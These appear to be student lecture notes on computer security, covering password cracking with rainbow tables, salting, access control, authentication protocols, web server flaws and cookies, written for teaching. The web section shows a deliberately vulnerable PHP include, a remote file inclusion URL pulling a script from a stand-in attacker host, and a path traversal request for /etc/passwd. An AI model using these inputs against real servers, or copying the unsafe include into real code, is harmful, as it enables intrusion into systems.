- One one hand, we should not set *simple passwords* but should set *different passwords* for different accounts
- On the other hand, we have many different accounts
    - The average user has $25$ password accounts
    - But the average user has $6.5$ different passwords

##### Possible Solutions
- Using a password manager, providing one single protected place, e.g. Password safe, NordPass
- Password hints and "memorable information"
- Dual factor authentication
- Other types of authentication

#### Password Cracking

##### Cracking Speed

- The time taken to crack a password with brute force depends on the number of combinations
- Let $\text{length} = L$ and $\text{character set size} = W$.
- The number of total combinations is $W^L$.

| Password | Combinations (C) |
|:---------|------------------|
| 26 characters - length 4 | $26^4 = 456976$|
| 52 characters - length 4 | $52^4 = 7.3 \times 10^6$|
| 94 characters - length 8 | $94^8 = 6.1 \times 10^{15}$|

- Indicative speeds using current tools like `hashcat` or `John the Ripper`

| Hash | Using | Speed |
|:-----|-------|-------|
| MD5 | Good PC | $10^7$ guess/s|
| SHA256 | Good PC | $10^6$ g/s|
| MD5 | PC + Graphics Card | $10^{10}$ g/s|
| SHA 256 | PC + Graphics Card | $10^9$ g/s|

- With a GPU cluster, passwords can be cracked even faster - heavily depends on **hardware**
- Expected time to crack a password:
$$\text{Time} = \text{(Total Combinations)}/\text{Speed}$$

- Assuming we use a $8$-long passowrd using $94$-character set - $6.1 \times 10^{15}$ possibilities:
    * Speed of a good PC - about $19$ years
    * Speed of PC+GPU - about $7$ days
    * Speed of a $25$-GPU cluster - about $4.8$ hours

##### Entropy

- Entropy is a measure of the strength of a password based on the number of possibilities
- The entropy $x$ is defined as $x = \log_2(W^L)$.

##### Human-Generated Passwords

- Entropy only measures the "uncertainty" of a password, i.e. how guessable it is
- Entropy only measures the maximum level of uncertainty
- But humans don't choose random passwords
    * Use words and character pattern in a language
    * Number of words in Oxford English Dictionary is $171476$
    * Much less uncertainty in a user-generated password

#### Storing Passwords

- **We should never store passwords in plaintext.**
- Instead we store the hash:
    * Hash is generated by a one-way hash function
    * Produces a fixed length hash value from the input
    * Not meant to be reversible
    * If the input changes by even a bit, the resulting hash should be completely different
    * E.g. MD5, SH256, SHA512 etc.

#### Other Authentication Methods

- **Biometrics** - Does not have a clear cut yes or no, there is room for false negatives or even false positives (which are worse)

- Statistics on various non-password authentication methods:

| Biometric | False Positive | False Negative |
|:----------|----------------|----------------|
| Face | `1%` | `10%`|
| Fingerprint | `1%` | `0.1%` |
| Hand Geometry | `2%` | `0.1%` |
| Iris | `0.94%` | `0.99%` |
| Retina | `0.0001%` | `0.2%` |
| Keystrokes | `7%` | `0.1%` |
| Voices | `2%` | `10%` |

# 6. Secure Email

#### Terminology

- **Email Domain**
    * The part after the `@` in an email, e.g. Warwick domain, cambridge domain, google domain
- **Email Client**
    * The email viewing application, e.g. Thunderbird, Outlook etc.
- **Email Servers**
    * *SMTP* - responsible for sending email to their destinations
    * *IMAP* or *PoP3* servers - responsible for retrieving emails sent by the sender

#### How email is delivered

1. User begins by using the **email client**, which connets to the *SMTP* server and sends the server the email address of the recipient, the name of the sender and the body of the message
    * *SMTP* breaks down the recipient's email into $2$ parts: the `name` (before the @) and the `domain` (after the @)
2. If the domain of recipient and sender are **identical**, the *SMTP* server hands the message to the *PoP3* or *IMAP* server for that particular domain
3. Otherwise, *SMTP* communicates with the *Domain Name Server* (DNS) for the IP address of the *SMTP* server in the other domain.
4. The *SMTP* server at the sender's side sends the email message to the *SMTP* server at the recipient's end, which then hands the message to the *PoP3* server for the recipient's domain

- If *SMTP* server cannot connect to the other *SMTP* server, the message goes into a **sendmail queue**
    * The server will periodically try to resend messages in the queue.
    * After several failures, the server will give up and return the mail undelivered.

- The *PoP3* server for each domain maintains a list of email accounts and a text file for each account.
    * When the server receives an email addressed to someone, it formats the email and appends the formatted email to the account's text file
    * When the recipient checks their email with the email client, the email client:
        * queries the *PoP3* server to send a copy of their text file and tells the server to erase and reset the text file
        * This copy is saved on their local message and the text file is parsed into the separate messages

#### General Security Issues in Emails

##### Overview
1. Email is free - encourages spam, DoS attacks
2. Email can carry paylods (viruses)
3. Email is easy to spoof (if there is no authentication)

##### Email Servers

- Email servers contain email information of **all** email accounts - thesee will be known to the attacker if the server is compromised
- Additionally there is no **guarantee for delivery** if *SMTP* cannot connect to *SMTP* at receiver's end - no guaranteed **Access** in CIA
- People have **poor passwords**
- Emails can be **intercepted** on insecure networks (packet sniffers)
    * Poor key-generation (if email is not correctly encrypted) - this compromises email confidentiality



#### Solutions to Problems

##### Spam

- Spams can be handled with a spam filter (`SpamAssassin`)
- Spam filters can define a large set of rules:
    * The format of sender's email account
    * Whether the body contains a certain pattern of words
- Rules matched against email to generate a score. If this score **exceeds a threshold**, the email is classified as spam

##### Payloads

- Can be tackled with anti-virus software
- Spam filters can also help with this, e.g. if the email has suspicious attachments
- Be careful when opening emails is the best way to prevent this

##### Spoofing

- Originator and apparent originators of an email are different.
    * An originator, e.g. some student can pose as module organiser (apparent orginiator)
- Spam filters may help with spoofing, as this will examine the email header to check if the originator and apparent originator match.
- Otherwise, we mainly use **Digital Signatures**

##### Interception

- A straightforward solution is:
    * To send email, encrypt with recipient's public key
    * Recipient can then decrypt using their private key
- This method is too slow to encrypt the whole email using public key encryption.
- A **faster method** is to use a *shared secret key* to encrypt the message. This is done with a session key.
    * Session key is used to encrypt the email message.
    * Public key (RSA) is used to encrypt **only the session key** - hence faster.
    * THe encrypted key and email message is sent to the recipient as an encrypted message
    * Recipient's private key is used to decrypt the secret key which i then used to decrypt the message.

- Products that provide this solution:
    * `PGP` (Pretty Good Privacy) - paid
    * `GnuPG` (Gnu Privacy Guard) - open source implementation of `OpenPGP`
    * Windows version `Gpg4Win`



# 7. Password Cracking

## Methods

There are a few methods of cracking a password hash:
- **Brute force attack**- not the most efficient approach
- **Dictionary attack** - tries likely words, short passwords, dictionary lookup. Is likely to have a good chance of success on many systems
- **Look-up tables** - precomputes the hash values of a large number of passwords
- **Reverse Look-up tables** - uses hash chains to reduce the storage space
- **Rainbow tables** - an improvement on look-up tables as it reduces chain collisions.

### Brute Force and Dictionary Attacks

- The simplest way to crack a hash uses this outline:
    1. **Guess** password
    2. **Hash** the guess
    3. **Check** if the guess' hash equals the given hash
    4. If the hashes are equal, the guess is the password
    5. If not, go back to step 1

- This is the slowest method but easiest to implement.
- **Brute force** attacks and **dictionary** attacks are two most common ways of guessing passwords

#### Brute Force Attacks
- try every possible combination of characters
- very computationally expensive, the least efficient
- will eventually find the password after a long time, longer if passwords are more complex and longer

#### Dictionary Attacks
- Uses a file containing *words*, *phrases*, *common passwords*, and other strings that are *likely to be used as a password*.
- These dictionary files are constructed by extracting words from large bodies of text, and even from real databases of passwords.
- Further processing is often applied to dictionary files, such as replacing words by their equivalent "**leet speak**", e.g. `hello` = `h3110`

### Lookup Tables

- In brute force/dictionary cracking, a password is **hashed every single time before being guessed**
- Lookup tables pre-compute the hashes of passwords, storing the hashes and the corresponding passwords in a lookup table.
- When given a hash, it looks up the table for the matching password, basically a more efficient dictionary attack.

### Reverse Lookup Tables

**Problem with Dictionary Attack and Lookup Tables**
- Stores all password possibilities in a large database
- Not efficient for long passwords (too much storage)

**What Reverse Lookup Tables do**
- sacrifice time for storage
- works better for long passwords

**Uses a technique called a *hash chain***

#### Reduction Functions

- We define a **reduction function** $R$, that maps hash values back into **a** password, **not** the original password (it isn't an inverse of the hash function) but just some other password that belongs in the password domain $P$.
- $P$ is the set of all combinations of length $L$ characters in a character set $W$.
- For example if we want to crack all passwords of length $5$, the reduction function $R$ maps hashes into passwords of length $5$.

$$\text{The only requirement for the reduction function is to return a value in P, other than that it can be anything}$$

- E.g. a reduction could be: *obtain the last 5 printable characters in the hash (password length is 5)*
- So for the hash `2cf24dba5fb0a30e26e83b2ac5b9e29e1b161e5c1fa7425e73043362938b9824`, the result is `^s3b$`

#### Constructing the Hash Chain

- We can construct a hash chain from a starting password $p_1$ by alternating applying the reduction function $R$ and the hash function $H$.

$$ p_1 \to h_1 \to p_2 \to h_2 \to p_3 \to h_3 \to p_4 $$

- We do this $k$ times to get an ending password, in this example $k = 3$.
- We then store the first and last password $p_1$, $p_4$ in each chain as an entry of a table. The resulting table is called the **reverse lookup table**.
- This method saves space because many passwords and many hashes are generated in the hash chain, but **we only store** the *start* and *end* passwords.

#### Cracking Passwords

- We construct a hash chain starting from a hash $h$.

    $$h \to p_1 \to h_1 \to p_2 \to h_2 \to ...$$

- If at any point we observe a password matching one of the end passwords in the table:
    1. Get the corresponding start password from the reverse lookup table and use it to recreate the chain.
    2. There is a good chance that the chain will contain the given hash $h$.
    3. If so, the password immediately preceding $h$ in the chain is the **matching password**

#### Example - Cracking Hashes

- Suppose we have the reverse lookup table, using the reduction function $R$ that takes the last 5 printable characters of the hash.

| Starting Password | Ending Password |
|:------------------|-----------------|
| `hello` |`e#,OO` |
| `waltz` | `<[X\|j` |
| `close` | `SM-Jb` |
| `proxy` | `rnbq^` |
| `which` | `\|Us5,` |

- We need to find the password matching the hash `96a0bdc17e9a21cac2fc4622c15ec35f177ce58bd4947ceeb555d87335e0e12c`.
- First we apply the reduction function $R$ to get `|Us5,`. This matches the ending password of `which`, so we start with `which` and try to find the corresponding password.
- Applying $H$ then $R$: `which` $\to$ `77bc06c55d29ee3cfa295b4592e4b2a85a16bb06a8974726b7bfa3d4ca36d5ae` $\to$ `EZG&6`
- Then applying $H$ again: `EZG&6` $\to$ `96a0bdc17e9a21cac2fc4622c15ec35f177ce58bd4947ceeb555d87335e0e12c`
- This is the matching hash, so the password is `EZG&6`.


#### False Alarms

- The **reduction function** we have defined does not represent a 1-1 relation between the hash and the password - 2 different hashes when going through $R$ may give the same output.

> This is the **main problem** with RLT - hash chain collisions that we call *false alarms*

- For example:

$$ \text{Chain 1:} \hspace{1em} p_1 \to h_1 \to p_2 \to h_2 \to p_3 \to h_3 \to p_4$$

$$\text{Chain 2:} \hspace{1em} p'_1 \to h'_1 \to p'_p2 \to h'_2 \to p_2 \to h_2 \to p_3$$

- Chain collision wastes space for the attacker:
    - This is because after a certain password, all following passwords in both chains will be the same
    - If this chain was very long, e.g.$k = 10000$, a majority of the chain will be the same (wastes space!)

### Rainbow Table

- Rainbow tables are designed to **reduce** chain collisions or false alarms. 
- It does this by using **different $R$ functions** in different reduction stages when generating the hash chain to reduce the probability of chain collisions.

- E.g. Chain : $$p_1 \to h_1 (R_1 \to) p_2 \to h_2 (R_2 \to) p_3 ...$$

- Given a hash $h$, the reduction functions must be applied in the right order when creating the chain.
- Lets say we have $k$ reduction functions, anyone of them can be applied first to the given hash $h$.
- Assume $R_k$ is first applied to the given hash. The order of $R$ functions applied is:

$$ h (R_k \to) p'_1 (R_1 \to) ... (R_2 \to) ... (R_{k-1} \to) ...$$

- If the password is not found, it means that $R_k$ was not the first reduction function to be applied. Proceed to assume $R_{k-1}$ was first applied.
- If the password is not found, continue until finally $R_1$ is first applied.
- If the password still cannot be found, we say that the password of thegiven hash **is not embedded in the rainbow table**, and we are not able to find it.



## Defence

- There is no way to prevent brute-force or dictionary attacks.
- But we can use **password salts** to make loopkup table, reverse lookup table and rainbow table attacks less effective.

### Password Salting

- ***Def***. A salt is a *randomly generated number*.
- The salt and the password are connected and used by the hash function to generate the hash:
$$h = \text{Hash}(\text{password} + \text{salt})$$

- Both $h$ and the corresponding $\text{salt}$ are stored in the password file.

#### Login Verification

- When a user enteres a password during login:
    * Obtain the **salt** value used to generate the hash for the user in the password file
    * Connect the input password with the **salt**
    * Generate the hash of this input and compare it with the stored hash.

#### Defending against Table Attacks

> In order for the lookup table attack to succeed, an attacker **needs to precompute** the tables.

- Since **salt** is used, we precompute and store the hash of a password **for each possible** *salt* value, which increases the number of possible combinations of `password + salt` values that we have to precompute by **a lot**
- Additionally, the **salt** is not *user generated* so it is more unpredictable as well.
- For each password $p$, precompute and store:

$$H(p + s_1), H(p + s_2), ..., H(p + s_n)$$

> When the salt is large, e.g. 48 bits, the required storage space will be too big for the attack to be worthwhile**

- In order to **precompute** tables, an attacker needs to generate **many chains** for the same password because it has to consider each possible *salt*.

### Storing Passwords in Linux

> When a user is created, their info is stored in the `/etc/passwd` file and their `hash + salt` is stored in the `/etc/shadow` file. Only the user can read `passwd` and only root can read `shadow`.

#### Password File

- Linux creates an entry in the `/etc/passwd` file with these details:
    1. Username - used when user logins in
    2. Meant to store hash but hash is not typically stored in `/etc/passwd`. An `x` character means the hash is stored in `/etc/shadow`
    3. User ID. Root has id 0, ids 1-99 are reserved for predefined accounts. IDs 100-999 are reserved for system accounts
    4. Group ID
    5. General info on User - add extra info about user, used by the `finger` command
    6. Home directory (absolute path)
    7. Command / shell (absolute path), e.g. `/bin/bash` for user shells, `nologin` for `sysadmin`.



#### Shadow File

- Linux creates an entry in the `/etc/shadow` file with details separated by dollar signs and then colons:
    1. Hash function. E.g. `SHA512` has hash function $6$.
    2. *salt*
    3. *password hash* (up to the colon). If the hash is a `*` then the account is disabled. `!` or `!!` means the account is locked.
    4. The time the password was generated
    5. Min num of days between authorised password changes.
    6. Max number of days a password can last for
    7. Number of days in advance the system will give you a warning to change the password

```text
$6$JVGtK2Il$/s.5q4M1WN/ekw2rM26OHId9TPELOcPMmHG.E7zCzSbalzVPgPPGUIB7f7/2mTfj/Lg3RgoKhAkcsBDkJGAN.1:18554:0:99999:7:::
```

#### Unix Protection Rules

- **Unix** may set local rules for setting passwords to help protect passwords:
    - e.g. it can set the length of the password, number of upper/lower case characters or even symbols
    - Time before password can be changed or must be changed
    - Salt used (*pseudo-random*)
    - Type of hash can be changed as well

# 8. Access Control

> Access control specifies what *subject* has what *permission* to access which *object* and enforces the permissions

#### Terminologies:

- **Object**: the thing we want to access
- **Subject**: what/who is doing the accessing.
    * E.g. Fred (subject) wants to read the password file (object)

- In computer systems, generally **processes** access **resources**
    * Object examples: file, directories, TCP ports, memory segments, IO devices
- An entity may both be a subject **and** an object


- **NOTE** - the user who owns the process is called **principal**

#### Principles of Access Control

1. **Principle of Least Privilege**
    * Only give the least rights necessary
2. **Principle of Fail-safe Defaults**
    * First assume the subject doesn't have the permission to access the object
    * Then verify the subject's permission
    * If valid, grant the access

- Examples of access control decisions:
    * Is user Fred Flintstone allowed to read file `secretproj`
    * Is he allowed to delete it?
    * Can process $A$ use the network port $80$?
- Whenever an access request is made, a decision must be made **one way or the other**

### Discretionary Access Control (DAC)

> Controls are set by the owners

- Users set other subjects' permissions to access the objects they create.
- Users are allowed to change security settings they set at their own discretion.

- In order to realise access control, we need a way of:
    1. specifying the types of access/permissions
    2.storing the information about permissions

#### Specifying the Permissions

- Different systems use different permission flags.
- **Unix**:
    * Read, Write, Execute
- **Windows NTFS**:
    * Read, Write, Execute, Delete, Change Permissions, Change Owner
- **AFS**:
    * Read, Write, Lock, Lookup in Directory, Insert in Dir, Delete in Dir, Modify Attributes

#### Storing the Permissions

- All methods of storing permissions are accurate, but they differ in practice, in terms of the **cost** of performing a permission review.

##### Access Matrix

- One way is to store a matrix of access permissions, where the **rows** are the *subjects* and the **columns** are the objects.
- Each cell stores the access permissions the **subject** has on the **object**.
- **Problem**:
    * the matrix is likely to be sparse
    * would be better to use data structures that only store the non-empty cells of the access matrix

##### Access Control List (ACL)

- An **access control** list is an array indexed by **objects**
- Equivalent to looking at the *access matrix* by **columns**
- Info is indexed by *object*, so it is easy to review the permission info **about an object**
- It is expensive to check what permissions are **associated with a subject**
    * Need to traverse all entries of all objects

##### Capability List

- A **capability list** is an array indexed by **subjects**
- Equivalent to looking at the *access matrix* by **rows**
- **Easy** to find out the information of a **given subject**
- **Expensive** to find out the information of a **given object**

#### DAC Implementation in Operating Systems

##### Linux

- Linux uses **Access Control Lists** to implement DAC.
- The `chmod` command manages permissions for owner, group and others on files/directoreis.
- **ACL** in Linux is used to manage the permission for particular users on files.
    * `setfacl` is used to set the access control list
    * `getfacl` is used to get the current applied ACL on files
    * **Mask Value** - set maximum allowable permissions for all users (except for owner)

##### Operating Systems that use ACL

- Linux and Unix-like OS
- Windows NT series of OS
- MacOS

##### Operating Systems that use Capability Lists

- Fuchcia developed by Google
- Genode by Genode Labs
- Midori by Microsoft

### Mandatory Access Control (MAC)

> An "across the board" policy that is enforced by the system. Often achieved with multi-level security

- DAC allows the object's owner or principals to change the permissions
- An institution might have the authorisation rules that should be applied to **all users** in the system:
    * The rules are set by the institutions
    * The individual users are prohibited to set or change these rules
    * This is called Mandatory Access control

- Often achieved by Multi-Level Security. We will focus on the **Bell LaPadula Model**.

#### Terminology

- **Subject** - what/who wants to access
- **Object** - the thing we want to access
- **Security Level (sensitivity)**
    * E.g. Top Secret, Secret, Confidential, Unclassified
- **Category** - compartments of the security level
    * E.g. project or job involved
    * E.g. Handwriting project (HP), nuclear project (NP), spy ring project (SP)
- **Security Label** - defined as $L = (S,C)$ where $S$ is a security level, $C$ is a set of categories.
    * E.g. (Secret, {HP, SP}), (Top Secret, {})

- Each *object* is assigned a security label (**classification**) - $L(o)$

- Each *subject* is assigned a security label (**clearance**) - $L(s)$



#### Examples

- A user with general security level of "Confidential" who had been assigned to work on the nuclear project is given the label:
$$(\text{Confidential}, \{\text{NP}\})$$

- A document comparing aspects of all three projects which is deemed to be of generally "secret" nature could be labelled:
$$(\text{Secret}, \{\text{NP}, \text{HP}, \text{SP}\})$$

#### Lattice Structure

- The MLS system is set up such that the security labels form a **lattice**
- ***Def.*** A *lattice* is a **partially ordered set** $L$ with a partial order relation $\le$ such that:
    * Any two elements have a *least upper bound* (supremum or join)
    * Any two elements have a *greatest lower bound* (infimum or meet)

- In the case of MLS, we must have that the **set of security labels** $L$ forms a lattice under the **domination** relation $\le$.
- Assume $l_1 = (c_1 X_1), l_2 = (c_2, X_2)$. Then:
    * The least upper bound of $l_1$ and $l_2$ is $(\text{highest}(c_1, c_2), X_1 \cup X_2)$.
    * The greatest lower bound of $l_1$ and $l_2$ is $(\text{lowest}(c_1, c_2), X_1 \cap X_2)$.

- The **domination** relation $\le$ is defined as:
$$(c_1, X_1) \le (c_2, X_2) \space \text{iff} \space c_1 \le c_2 \land X_1 \subseteq X_2$$

#### Access Rules
 
> No read up, and no write down

- A subject can **read an object** only if $L(s) \ge L(o)$
    * called *clearance dominates classification*
- A subject can **append an object** only if $L(s) \le L(o)$
    * called *classification dominates clearance*
- A subject can **write an object** only if $L(s) = L(o)$
    * we can both read and append

- For example:
    * $(\text{Secret}, \{\text{HP}, \text{SP}\}) \ge (\text{Confidential}, \{\text{HP}\})$ so the first can read the second
    * $(\text{Secret}, \{HP, SP\})$ and $(\text{Confidential}, \{NP\})$ are incomparable so neither can read each other

**TLDR**
- *No read up* - you can only read things that are at your level or more public, no accessing too secret things
- *No write down* - you can only write things that are at your level or more secret, i.e. no leaking secret things

#### Why do we need to form a lattice?

- *Principle of Least Privilege* - we need to find the minimum security label such that **a subject** can read **both objects**
    * This corresponds to the *least upper bound* existing
- We need to find the maximum security label such that **two subjects** can read **an object**
    * This corresponds to the *greatest lower bound* existing

#### Flow of Information

- If we consider the **lattice** as a directed graph, a path in the graph from $L_1$ to $L_2$ means that *"information can flow from $L_1$ to $L_2$"*.
- This can happen in two ways:
    * A subject at $L_2$ reads an object at $L_1$
    * A subject at $L_1$ writes an object at $L_2$
- **"Information only flows upwards"** - i.e. data is kept secret and not leaked
    * Corresponds to information can only flow from $L_1$ to $L_2$ only if $L_2 \ge L_1$




#### Implementation of MAC in Linux

- `SELinux` is a security module built into the Linux Kernel.
- `MLS` is one of the access control schemes implemented in `SELinux`, where `MLS` enforces the *Bell-LaPadula* MAC model.
- A login user is mapped to a SELinux user
- A SELinux user is mapped to a role
- Security policies specify what roles can access what types
- Controlling the permission of login users by controlling mapping between users, roles and types.
- `MLS` scheme is used in conjunction with `ACL`:
    * DAC rules are first checked, then the MLS policy rules
    * If the access is rejected by DAC rules, MLS rules will not be checked

# 9. Security & Authentication over Networks

- ***Def.*** A protocol is a *fixed pattern of exchanges* betwen two or more parties to achieve a certain task.
- We can write the protocol in the format below:
```protocol
A->B: M1
B->A: M2
```

### Authentication at a Distance

- Suppose $A$ and $B$ interconnect by an insecure communication channel, and $A$ and $B$ want to communicate with each other.
- Either could be lying - $A$ and $B$ need to authenticate each other, could be done by:
    * Digital signature
    * Digital signature + Digital certificate
    * Password (if $B$ is a website)
- Recall how **public keys** can ensure integrity and non-repudiation provided the public key is trusted, but **it cannot provide authentication**.

#### Replay Attack

- ***Def***. *unilateral authentication* is where only one party authenticates the other.
- **NOTE**: $[M]_\text{Alice}$ means that $M$ is signed by Alice with her private key, $KU_\text{Alice}$.

- Suppose $B$ authenticates $A$ by $A$ sending their digital signature to $B$. The protocol format is:
```protocol
A->B: [A]_Alice
B->A: B
```

- Suppose Eve listens to the insecure channel and stores Alice's messages. After the communication is over, Eve sends Alice's messages to Bob (**Replay Messages**)
    * Bob would accept Eve as Alice

##### Solution 1 - Session Token

- Bob generates a token $R$, which is a random number
- Alice needs to sign the token. This authenticates Alice to Bob
- The authenticated token can only be decrpted with $A$'s public key if $A$ sent the message, hence authenticating $A$.
- The interaction can be formalised by the below protocol:
```protocol
A->B : A
B->A : R
A->B : [R]_Alice
```

##### Solution 2 - Timestamping

- When $A$ sends a message to $B$, they include a timestamp in the encrypted message.
- If the message is replayed by $E$, $B$ will know that is an old message.

#### Mutual Authentication

- ***Def.*** *Mutual Authentication* is where you do the authentication check both ways
- All the examples above have been of *unilateral authentication*.
- A compact protocol is:

```protocol
A->B : I'm Alice, R_A
B->A : R_B, [R_A]_Bob
A-> B: [R_B]_Alice
```

- We can do this either using a **digital signature** or **public key encryption**.

##### Using Digital Signature

```protocol
A->B : "I'm Alice"
B->A : R
A->B : [R]_Alice
```

##### Using Public Key Encryption:

```protocol
A->B : "I'm Alice"
B->A : {R}_KPAlice
A -> B : R
```

- This achieves a similar effect to digital signatures
- **NOTE**: {R}_KPAlice represents encryption of R with Alice's public key.

#### Man in the Middle Attack (Relay Attack)

- There is still a problem with our protocol.$A$ coiuld communicate with $E$, but $E$ could be **malicious** and decide to pass on the message to $B$. Now $B$ will pass the token to $E$ and $E$ passes it to $A$ and then passes the encrypted token back from $B$ to $A$.
- As a result, **B thinks they are communicating with A**.
- Eve continues to communicate with Alice as a **legitimate user**.

##### Solution

- The principle is to include both **sender** and **receiver**'s info in the authentication protocol
    * When using encryption, sender's id is included
    * When using signature, receiver's id is included
- This works as to change the sender or receiver detail, they would have trouble either decrypting the packet or re-encrypting the packet, which is infeasible as you require the private key of the sender / receiver.

**Digital Signature**
```protocol
A->B : A
B->A : R
A->B : [R, E]_A
```

**Encryption** - this is also known as the **Needham-Schroeder Authentication Protocol** (*public key variant*)
```protocol
A->B : A
B->A : {B, R}_KPA
A->B : R
```

### Diffie-Hellman-Merkel (DHM) Key Exchange Protocol

- The **DHM** protocol is used when two parties **wish to communicate privately**, but the **communication  channel is not secure**, and they want to use **secret key encryption**
- To do so, $A$ and $B$ have to first publicly agree on values for $y$ and $p$ in a modular exponentiation one way function: $y^x \bmod p$.
    * $y$ needs to be the primitive root of $p$
    * $p$ is an enormously large prime number
    * The two numbers can be publicly known
- $A$ and $B$ choose secret numbers, $a$ and $b$ respectively. Then:
    * Put $a$ into the one-way function and compute $v_A = y^a \bmod p$
    * A sends $v_A$ to $B$ and receives $v_B$ from $B$
    * $A$ applies their function to $v_B$: $(v_B)^a \bmod p$
    * $B$ does the same with $(v_a)^b \bmod p$, where $b$ is $B$'s secret number.
- $A$ and $B$ **will arrive at the same value** which is their secret key: $$s = (v_A)^b \bmod p = (v_B)^a \bmod p$$
- This works because of **Property 6** of Modular Exponentiation.

# 10. Web Server Security Issues

### Background

#### Interaction between Client and Web Server

- In general there are $5$ main steps between client and server:
    1. User issues URL from a browser
    2. Browser sends a request message
    3. Server maps the URL to a file or progarm under the document directory
    4. Server returns a response message
    5. Browser formats the response and displays

#### HTTP Request

- When a client types a URL address into the browser, our browser composes a message such as

```http message
GET /docs/index/.html HTTP/1.1
Host: www.nowhere123.com
Accept: image/gif, image/jpeg, */*
Accept-Language: en-us
Accept-Encoding: gzip, deflate
User-Agent: Mozzila/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
{blank line}
```

- The message consists of a number of lines. The first line is the request line:
    * **Format**: `message` `name` `request-uri` (address of the resource we want to access) `HTTP-version`

- Request line is followed by request headers
    * **Format**: `name` : `value` pairs
- Request line and request headers are together called request message header, followed by request message body.

#### HTTP Request Methods

- The HTTP protocol defines a set of request methods that are supported by a web server:
    * **GET**: get a web resource from the server
    * **HEAD**: get the header that a GET request would have obtained
    * **POST**: used to post the data up to the web server
    * **PUT**: ask the server to store the data
    * **DELETE**: ask the server to delete the data
    * **OPTIONS**: ask the server to request the list of request methods it supports

#### How HTTP Server Processes Requests

##### Listening

- HTTP server listens to the **port**(s) specified in the config file of the server
    * ***Def.*** *port* is the endpoint communication destination and is associated to a process/service
        * the request arriving at a certain port will be processed by the associated service
    * *port* is a 16-bit number - there are $65536$ ports in a computer
    * `http`: 80, `ssh`: 22, `ftp`: 21, `smtp`: 25, etc.

##### Processing

- After the server recieves the request there are three general ways to process the request:
    1. map the request to a **file** in the directory in the server, and return the file to the client
    2. map the request to a **program** in the server, execute the program, and return the output of the program to the client (e.g. **POST** request, CGI)
    3. the request cannot be satisfied, the server returns an **error** message

- If the webpage is a **HTML** file, *CGI* is one way to invoke a program in the web server.
- PHP can be used to embded functions in the web page.

#### PHP

- **PHP** is a section in a HTML file.
- It is a language used to make dynamic web pages.

##### Dynamic File Loading

- Suppose the URL of a website is `http://yoursite.com/index.php`
- In the webpage there is the following php code:
```php
<?php include $_GET['page']".html"; ?>
```
- **PHP** supports loading a file based on data passed via the **URL** paramter.
- The content after "?" is interpreted as the parameter of the request
- E.g. `http://yoursite/com/index.php?page=photos` runs `index.php` with `page=photos` as an input parameter.
- In PHP there are **internal arrays** used to hold information passed from the client. "\$_" tells PHP we are accessing an array and `GET['page']` tells PHP we are accessing the `page` variable in the `GET` array.
- The `include` statement loads "photos.html"
- It is a **dynamic web page** because the same source of the web page displays different content depending on the user's input.

### Security Issues

#### Remote File Inclusion (RFI) Vulnerability

- If the URl sent by the user is `http://yoursite.com/index.php?page=http://ev.il/badscript.php?`, include `$_GET['page']".html"` becomes:
```php
include http://ev.il/badscript.php?.html
```

- What happens is that `badscript.php` will be run, because anything after "?" is interpreted as an input parameter of the php script.

#### Forms

- A **form** is used to pass information from a web browser to a web server.
- There are 2 different ways to submit a form, `GET` or `POST`.
- Especially when forms contain sensitive information (e.g. passwords), `POST` is **always safer** because:
    * `GET` request will have form paramteres encoded in the **head** of the HTTP request as the address of the resource that we want to access
    * `POST` requests will have the form parameters placed in the **body** of the HTTP requests. **More secure** because we can encrypt the HTTP request body.

##### Call OS commands in PHP

- When using PHP, sometimes developers make the mistake of running **shell commands** in php that have a parameter/variable that depends on **form inputs**.
- This is a **potential vulnerability** as an attacker can send code through these inputs and make the web server perform commands that could compromise security.

#### Path Exploits

- **Path Exploits** try to enter the directory or access files that are not intended to be accessible.
- E.g. `http://www.example.com/home/users/.../etc/passwd` will display the `passwd` file if not properly configured.
- When `allow_url_fopen` is set to "on", users will be allowed to retrieve and display the file in the server, even if the file is not a typical web page.

#### Robot Exclusion Protocol

- **Web crawlers** or **web robots** systematically scan the WWW to mine data.
- **Robot Exclusion Protocol** (REP) rspecifies which directories of the website that the robot should not scan
- Instructions are written in the `robots.txt` file in the root directory of the web server. E.g.
```txt
User-agent:* # apply to all robots
Disallow:/local/secure.html

User-agents:Googlebot # apply only to Googlebot
Disallow:/private/
```
- When there is sensitive data, we should exclude robots from crawling those files.

# 11. Security with Cookies

### Overview of Cookies

#### Web Service is stateless
- Every HTTP request includes all info needed for server to fulfil the request
- Previous http requests are not used to process the current request
- **Cookies** are used to record the *state of service invocation*.

#### What are Cookies
- **Cookies** are a piece of data sent by a web server and stored in a *client's web browser*
- When the client visits the web server again, the browser sends the cookie back to the server.
- Used by web servers to **remember stateful information** and **record the user's browsing activity**, e.g. items in a shopping cart
- A web browser can store at least $3000$ cookies, each as big as `4KB` and at least $50$ cookies per server domain.

#### Setting Cookies
- Set using the `Set-cookie` header in http response message
- E.g. `Set-Cookie: username=ligang; Expires=Tue, 15-Nov-2023 21:47:38 
GMT; Path=/docs; Domain=.example.com; Secure; HttpOnly; HostOnly`.
- `Set-cookie` is a directive, followed by `(name=value)` pairs.
- Components:
    * Domain: server domain. path and domain define the scope of the cookie
    * `Httponly`: Whether the cookie can be accessed through other means than HTTP, i.e. JavaScript
    * `Hostonly`: Cookie is only sent when the root domain is requested, e.g. `www.example.com` not subdomain like `foo.example.com`
    * `Secure`: Cookie is sent only when `https` protocol is used to request a URL



### HTTPS Protocol

- Runs on top of **SSL** (secure sockets layer) or **TLS** (transport alyer security)
- Makes use of **SSL**/**TLS** to provide authentication, confidentiality and integrity.



#### TLS / SSL

- Authenticate web server:
    * Web server sendsd certificate to web client.
    * Web server installs root certificate of CA
    * Web client uses public key in CA's root certificate to verify web server's certificate is genuine
- Used to provide **encryption** and **integrity** between client and server 
1. Client sends an initial message to the server to agrree on **key**, **encryption method** and **hash function**.
2. Client generates **digital signature** or **MAC**, encrypts message + DS/MAC and sends them to the server.
3. Server decrypts them and verifies the integrity

### Accessing Cookies

#### JavaScript
- `document.cookie` refers to the cookie that applies to the web page in JS.
- JS can read, create, modify and delete the cookies

#### PHP
- `$_COOKIE[]` array holds the info of cookies
- `setcookie` is used to set the cookie in PHP.

### Security of Cookies, Session

- **Cookies are just text data**, they cannot carry *viruses* or install malware on the host
- Main concerns are about privacy and authentication
- **Privacy**:
    * Cookiues contain sensitive information that a user has previously entered, such as username, location, etc.
    * Third party cookies
- **Authentication**:
    * Cookies can carry session ID
    * Most websites use session ID to avoid repeated authentication

#### Session

- A **session** is a data structured on the server that stores temporary info during the client-server interaction
- To remember the state between connections:
